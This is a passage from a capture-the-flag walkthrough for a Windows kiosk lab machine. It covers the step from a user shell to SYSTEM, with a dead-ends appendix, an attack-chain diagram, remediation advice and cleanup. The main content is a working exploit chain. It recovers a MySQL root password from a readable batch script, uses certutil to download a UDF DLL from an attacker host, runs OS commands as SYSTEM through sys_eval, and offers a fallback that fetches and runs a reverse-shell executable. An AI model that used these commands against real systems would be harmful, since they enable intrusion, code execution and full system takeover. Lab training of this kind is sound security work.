   > 
   > **✅ Expected:** `whoami` = `kiosk-042\kioskuser`, and the `type` matches the `file://` read.
   > 🚩 **user.txt captured.**

---

## Phase 4 — Privilege escalation: KioskUser → SYSTEM → **root.txt**

> **⚠️ Read this before you start — there is a big rathole here.** KioskUser is in a custom local
> group **`KIOSK-042\Printer Administrators`** with write access to the Nexion printer's plugin
> folder. It *screams* "drop a malicious plugin DLL." **It is a decoy.** An entire prior session
> was burned trying to make the SYSTEM process `NexionPrinter.exe` reload a planted DLL — there is
> **no reachable reload trigger** (details in the Dead-Ends appendix). Do **not** go down that path.
>
> The real root is **MySQL UDF**, and it's confirmed by two independent public writeups *and* by our
> own recon (we had already found `MySQL80` runs as `LocalSystem` on `127.0.0.1:3306`; we were just
> missing the credential). Here is the correct, minimal path.

Work it as a checklist from the `cmd.exe` shell (and load the `windows-kiosk-privesc` skill):

| # | Check | Command | Result on Touch | Verdict |
|---|---|---|---|---|
| 1 | Privileges | `whoami /priv` | only `SeChangeNotifyPrivilege` enabled | ❌ no SeImpersonate/SeShutdown |
| 2 | Groups | `whoami /groups` | custom `KIOSK-042\Printer Administrators` | 🪤 **decoy — ignore** |
| 3 | Services as SYSTEM | `sc qc MySQL80` | `SERVICE_START_NAME: LocalSystem`, listening `127.0.0.1:3306` | ✅ **the lever** |
| 4 | Readable config/scripts | `dir /s /b C:\ProgramData\*.bat` | `C:\ProgramData\HTB Airways\refresh-dates.bat` readable | ✅ **the key** |

### Step R1 — recover the MySQL root password (the piece everyone misses)
It lives in a readable maintenance batch script under a `ProgramData` folder (we'd checked
`C:\ProgramData\Nexion` and `C:\inetpub` last time but never `HTB Airways`):
```cmd
type "C:\ProgramData\HTB Airways\refresh-dates.bat"
```
> **✅ Expected:** the script runs `mysql.exe -u root ...` against `refresh-dates.sql`, exposing the
> root password **`HTB@irw4ys_DB!2026`**. (Confirm the actual value in *your* file — don't trust
> this doc blindly.)

### Step R2 — confirm MySQL root + FILE privilege + plugin dir
```cmd
where /r C:\ mysql.exe
C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "SELECT user,File_priv FROM mysql.user WHERE user='root'; SHOW VARIABLES LIKE 'plugin_dir';"
```
> **✅ Expected:** `root | Y` (FILE privilege present) and `plugin_dir | C:\MySQL\lib\plugin\`. Use
> whatever path `where /r` actually returns for `mysql.exe`, and whatever `plugin_dir` actually
> reports (download target in R4 must match it).

### Step R3 — stage the UDF DLL on your Kali (it ships with Metasploit)
```bash
ls -l /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.dll
cd /usr/share/metasploit-framework/data/exploits/mysql/
python3 -m http.server 8000 --bind $ATTACKER_IP        # leave running
```
> **✅ Expected:** the DLL exists (confirmed present on this Kali) and the server blocks waiting for
> requests. `lib_mysqludf_sys` exports `sys_eval()` — run an OS command, get stdout back.

### Step R4 — pull the DLL into the MySQL plugin dir, load it, go SYSTEM
```cmd
certutil -urlcache -split -f http://$ATTACKER_IP:8000/lib_mysqludf_sys_64.dll C:\MySQL\lib\plugin\lib_mysqludf_sys_64.dll

C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys_64.dll'; SELECT sys_eval('whoami');"
```
> **✅ Expected:** `certutil` reports `CertUtil: -URLCache command completed successfully`, your
> http.server logs a `GET /lib_mysqludf_sys_64.dll 200`, and `sys_eval('whoami')` returns
> **`nt authority\system`** — because `mysqld` runs as LocalSystem, the UDF executes as SYSTEM.
> - Using `certutil` to write the DLL directly to disk **sidesteps `secure_file_priv`** (that only
>   blocks `SELECT ... INTO OUTFILE`, not an external download).
> - If `CREATE FUNCTION` says the function already exists, you're fine — skip straight to `sys_eval`.

### Step R5 — read root.txt as SYSTEM
```cmd
C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "SELECT CONVERT(sys_eval('type C:\\Users\\Administrator\\Desktop\\root.txt') USING utf8);"
```
> **✅ Expected:** a 32-hex-char string → 🚩 **root.txt captured. Box owned.** Save it to
> `loot/root.txt`. (Capture a confirming screenshot with
> `DISPLAY=:99 import -window root loot/rdp_screens/root_sys_eval.png` if driving via the GUI shell.)

> **Fallback (interactive SYSTEM shell instead of one-shot):** serve a reverse-shell `.exe`
> alongside the DLL, start a listener, then
> `sys_eval('certutil -urlcache -split -f http://<IP>:8000/s.exe C:\\Windows\\Temp\\s.exe & C:\\Windows\\Temp\\s.exe')`.
> (Note from prior boxes: listeners in this sandbox sometimes die shortly after bind — prefer the
> one-shot `sys_eval` reads above unless you specifically need an interactive shell.)

---

## Dead-Ends appendix (documented so you skip them — each cost real time)

- **Nexion printer plugin-DLL / `TriggerDir` (the big one):** `Printer Administrators` has Modify on
  `...\Printer\publish\plugins\`, and `NexionPrinter.dll` even contains a `NexionPrinter.TriggerDir`
  string. But `NexionPrinter.exe` (SYSTEM, launched by a hidden root Scheduled Task) **loads plugins
  only at startup** — no live reload on overwrite *or* new-file create. Every restart lever failed:
  `taskkill`/`Stop-Process` (access denied), `shutdown /r` (no privilege), the web "restart printer"
  button (cosmetic — PID never changes), feeding scan/print events (no effect). The controlling task
  sits in the Task Scheduler root folder, unenumerable by this account. **This is a decoy; use MySQL
  UDF instead.**
- **`/login/badge` (8443):** throws GDI+ `"Parameter is not valid."` on *every* input, including a
  genuinely valid JPEG — it's a code bug (`new Bitmap()` on a non-seekable `HttpListener` stream),
  not a payload puzzle. Decoding the demo QR (`STAFF-T4-B7-042`) doesn't help; the handler dies
  before parsing any badge string.
- **`/api/scanner/test-image` upload:** no content-type/magic-byte check at all, but **no filename
  control** (no path traversal) and retrieval always forces `image/jpeg` → no stored-XSS/RCE.
- **RDS client-side shell override:** `/shell:cmd.exe`, `/shell:explorer.exe`, `/app:` all ignored —
  the host enforces the initial program server-side. NLA is rejected (`/sec:rdp` only).
- **WinRM (5985) credential reuse:** `KioskUser:K!0sk2026#` fails; sprayed 12 usernames × 2 passwords
  = 26 combos, all rejected. Not a WinRM account.
- **Kiosk app/browser shortcuts:** `F11, Alt+F4, Ctrl+N/T/W/P/S/U, Win, Win+R/E, Ctrl+Esc,
  Ctrl+Alt+End, right-click, F12, Ctrl+Shift+Esc, Alt+Tab, Ctrl+L, long-press` — all blocked. Only
  the **OS accessibility** route (Win+U → Narrator dialog) works.
- **"Find Your Booking" lookup / SQLi:** `value` is server-validated alphanumeric; `lastName` accepts
  strings but a parameterized query returns clean `NOT_FOUND` — not injectable. On-screen keyboard
  exposes no quote/semicolon chars anyway.
- **Narrator-dialog retrigger quirk:** the "Narrator updates" dialog is *mostly* one-time; toggling
  Narrator (`Ctrl+Win+Enter`) can re-surface it once, but not reliably. The "how do you want to open
  this link" flyout renders clipped off-screen (no taskbar to anchor to) — click "Narrator guide"
  and press Return rather than chasing the flyout.

---

## The whole thing on one page

```
135 / 3389 / 5985 / 8443
   └─ 8443 "Nexion DeviceHub" (plain HTTP)
        └─ GET /api/status (unauth) → leaks serial NX-DH-2024-B7042
             └─ POST /login password=<serial> → auth bypass → /dashboard
                  └─ dashboard HTML hardcodes KioskUser : K!0sk2026#
                       └─ RDP 3389 (/sec:rdp) → kiosk-locked "HTB Airways" shell
                            ├─ /shell:,/app: ✗  app shortcuts ✗  badge ✗  upload ✗
                            └─ Win+U → Narrator dialog → "Narrator guide" → Edge
                                 └─ Ctrl+S Save-As → All files → C:\…\cmd.exe → SHELL
                                      └─ USER (kiosk-042\kioskuser) · user.txt
                                           ├─ printer plugin-DLL / TriggerDir ✗ (no reload trigger — DECOY)
                                           └─ type "C:\ProgramData\HTB Airways\refresh-dates.bat"
                                                 → MySQL root pw HTB@irw4ys_DB!2026
                                                    └─ MySQL80 = LocalSystem + FILE priv
                                                       └─ certutil DLL → CREATE FUNCTION sys_eval
                                                          → sys_eval('whoami') = nt authority\system
                                                             └─ ROOT · root.txt
```

## Remediation (for the report side)
- **8443 app:** `/api/status` must not leak the serial unauthenticated; the serial must not *be* the
  password; don't hardcode OS credentials in dashboard HTML.
- **Kiosk lockdown:** disable OS accessibility shortcuts (Win+U/Narrator) in the AssignedAccess
  profile; block Save/Open common dialogs and `file://` in the kiosk browser; restrict Edge launch.
- **MySQL:** don't run `mysqld` as LocalSystem; don't store the root password in a world-readable
  batch script; lock down `plugin_dir` ACLs so non-privileged users can't write UDF DLLs; keep
  `secure_file_priv` set *and* restrict filesystem write paths.
- **Printer plugins:** `Printer Administrators` shouldn't have Modify on a folder loaded by a SYSTEM
  process (decoy here, but still a real weakness).

## Cleanup (artifacts this walkthrough leaves on the box)
```cmd
C:\MySQL\bin\mysql.exe -u root -p"HTB@irw4ys_DB!2026" -e "DROP FUNCTION sys_eval;"
del C:\MySQL\lib\plugin\lib_mysqludf_sys_64.dll
del C:\Windows\Temp\s.exe   2>nul
```
